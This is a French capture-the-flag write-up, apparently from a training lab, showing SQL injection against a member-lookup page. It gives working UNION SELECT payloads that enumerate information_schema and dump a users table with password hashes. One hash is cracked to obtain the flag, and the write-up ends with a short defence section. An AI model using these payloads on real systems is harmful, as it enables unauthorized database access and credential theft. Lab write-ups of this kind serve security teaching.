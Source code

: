 # SQL Injection

## URL
/index.php?page=member

## Reproduire la faille
On nous demande d'entrer un identifiant numérique qui correspond à l'ID d'un membre.

on teste avec 5 :
```SQL
ID: 5
First name: Flag
Surname : GetThe
```
On a des erreurs provenant directement de la base de données et on voit qu'on est sur une base MariaDB.
On sait qu’il y a au moins une table avec les colonnes ID, First name, Surname.
On doit maintenant réussir à trouver les colonnes qui nous intéressent.
On sait que MariaDB a une table information_schema par défaut parce qu’on s’est bien documentés.

En cherchant ainsi :
Avec `OR` on obtient le nombre de colonnes qu'on essaie de trouver : `1 OR 1=1 UNION SELECT NULL, NULL from information_schema.columns;`
comme l’input attend un INTEGER et que nous on veut lui donner une requête SQL, on le “brain” avec cette comparaison logique au début de la requête,
Il prend en compte car c’est une valeur numérique, comme ça on peut lui balancer notre requête ensuite. On essaie ça pour avoir les colonnes d’une potentielle table users :

Requête :
```SQL
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
```

Réponse :
```SQL
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : user_id
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : first_name
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : last_name
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : town
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : country
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : planet
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : Commentaire
ID: 1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
First name: users
Surname : countersign
```

Maintenant qu’on a les colonnes on veut afficher leur contenu.
attention, UNION demande que dans les deux requêtes il y ait le même nombre de résultat donc on va utiliser SQL CONCAT() pour retourner deux résultats :

Requête :
```SQL
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

Réponse :
```SQL
ID: 1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
First name: 1
Surname : onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
ID: 1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
First name: 2
Surname : twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
ID: 1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
First name: 3
Surname : threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
ID: 1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
First name: 5
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

## Comment se protéger :
Nettoyer les inputs provenant des utilisateurs et préparer les requêtes en avance dans le backend avec des ORM comme Hibernate pour Java ou Doctrine pour PHP par exemple.

## Déchiffrer le flag

Et voilà on a la méthode pour trouver le flag:
déchiffrement de `5ff9d0165b4f92b14994e5c685cdce28` qui était chiffré en MD5 → **FortyTwo**
lower all the char (comme indiqué)
chiffrement de `fortytwo` en SHA256→ `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

